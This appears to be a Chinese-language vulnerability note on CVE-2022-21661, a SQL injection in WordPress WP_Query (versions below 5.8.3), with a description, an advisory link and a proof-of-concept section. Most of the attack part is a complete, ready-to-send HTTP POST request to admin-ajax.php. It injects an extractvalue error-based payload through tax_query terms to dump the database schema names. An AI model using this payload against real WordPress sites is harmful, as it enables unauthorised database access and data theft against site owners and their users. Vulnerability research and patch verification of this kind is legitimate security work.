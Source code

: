 # WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

## 漏洞描述

`WordPress`是一个用`PHP`编写的免费开源内容管理系统，由于`clean_query`函数的校验不当，导致了可能通过插件或主题以某种方式从而触发`SQL`注入的情况。这已经在`WordPress5.8.3`中进行了修复。影响版本可以追溯到`3.7.37`。

参考阅读：

- https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84

## 漏洞影响

```
WordPress < 5.8.3
```

## 漏洞POC

获取数据库名：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
```

![image-20220623160952210](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206231609284.png)

